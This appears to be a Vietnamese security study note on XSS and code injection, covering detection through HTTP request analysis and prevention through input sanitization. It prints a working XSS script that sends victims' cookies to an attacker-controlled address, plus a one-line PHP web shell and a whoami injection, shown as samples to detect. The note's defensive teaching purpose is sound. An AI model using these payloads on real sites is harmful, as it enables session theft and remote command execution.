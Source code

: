 - **XSS** là một kỹ thuật tấn công trong đó kẻ tấn công chèn mã độc hại (thường là JavaScript) vào một trang web thông qua các đầu vào của người dùng (ví dụ: bình luận, biểu mẫu).
- Khi người dùng khác truy cập trang web này, trình duyệt của họ sẽ thực thi mã độc hại, cho phép kẻ tấn công:
    - Đánh cắp cookie, token, hoặc thông tin phiên (session).
    - Thực hiện các hành động thay mặt người dùng.
    - Chuyển hướng người dùng đến các trang web độc hại.

---

### **Cách phát hiện tấn công XSS**

1. **Phân tích các yêu cầu HTTP**:
    
    - Nếu chúng ta nhận thấy một lượng lớn yêu cầu HTTP được gửi đến một máy chủ nội bộ không xác định, đây có thể là dấu hiệu của XSS.
    - Example: Các yêu cầu chứa dữ liệu như cookie hoặc token được mã hóa hoặc không rõ ràng.
    
    ![[image 18.png|image 18.png](../../Image/image%2018.png)
    
2. **Kiểm tra mã độc hại**:
    - Kẻ tấn công có thể chèn mã JavaScript vào các phần của trang web.
        
        ```JavaScript
        <script>
          window.addEventListener("load", function() {
            const url = "http://192.168.0.19:5555";
            const params = "cookie=" + encodeURIComponent(document.cookie);
            const request = new XMLHttpRequest();
            request.open("GET", url + "?" + params);
            request.send();
          });
        </script>
        ```
        
	-  Mã này sẽ gửi cookie của người dùng đến một máy chủ do kẻ tấn công kiểm soát.
3. **Phát hiện mã độc hại trong đầu vào người dùng**:
    - Kẻ tấn công có thể chèn mã PHP hoặc các lệnh hệ thống để thực thi các hành động độc hại.
        
        ```Plain
        <?php system($_GET['cmd']); ?>
        ```
        
        - Mã này cho phép kẻ tấn công thực thi các lệnh hệ thống thông qua tham số `cmd`.
        
        ```Plain
        <?php echo `whoami`; ?>
        ```
        
        - Mã này sẽ trả về tên người dùng hiện tại trên máy chủ.

---

### **Cách phòng chống tấn công XSS và Code Injection**

1. **Sanitize User Input**:
    - Luôn kiểm tra và làm sạch dữ liệu đầu vào từ người dùng để đảm bảo chúng không chứa mã độc hại.
    - Ví dụ: Loại bỏ hoặc mã hóa các ký tự đặc biệt như `<`, `>`, `&`, `"`, `'`.
2. **Không diễn giải đầu vào người dùng như mã**:
    - Không bao giờ xử lý đầu vào người dùng như mã thực thi (ví dụ: JavaScript, PHP).